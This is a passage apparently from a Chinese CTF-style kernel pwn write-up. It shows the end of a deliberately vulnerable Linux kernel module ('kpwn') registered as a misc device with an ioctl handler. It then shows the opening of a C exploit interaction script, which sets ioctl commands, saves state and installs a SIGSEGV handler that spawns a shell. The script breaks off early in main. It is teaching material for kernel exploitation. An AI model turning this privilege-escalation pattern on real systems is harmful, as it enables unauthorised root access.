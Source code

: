 ```c
    }
    return ret;
}
static struct file_operations fops = {
    .owner = THIS_MODULE,
    .open =      NULL,
    .release =   NULL,
    .read =      NULL,
    .write =     NULL,
    .unlocked_ioctl = kpwn_ioctl
};

static struct miscdevice misc = {
    .minor = MISC_DYNAMIC_MINOR,
    .name  = "kpwn",
    .fops = &fops
};

int kpwn_init(void)
{
    misc_register(&misc);
    return 0;
}

void kpwn_exit(void)
{
    printk(KERN_INFO "Goodbye hacker\n");
    misc_deregister(&misc);
}
module_init(kpwn_init);
module_exit(kpwn_exit);

```

然后写个交互脚本

```c
#define _GNU_SOURCE
#include "exp.h"

#define ADD_ANY 0xbeef
#define DEL_ANY 0x2333

struct in_args{
    u64 addr;
    u64 size;
    char *buf;
};

void init(){
    save_status();
    setbuf(stdin,0);
    setbuf(stdout,0);
    signal(SIGSEGV, sh);
}
int main(int argc,char **argv){
    init();
    char *buf=malloc(0x1000);
    u64 *buf64 =(u64 *)buf;
    struct in_args *p = malloc(sizeof(struct in_args));

    int op=0;
    u32 addsize=1024;

```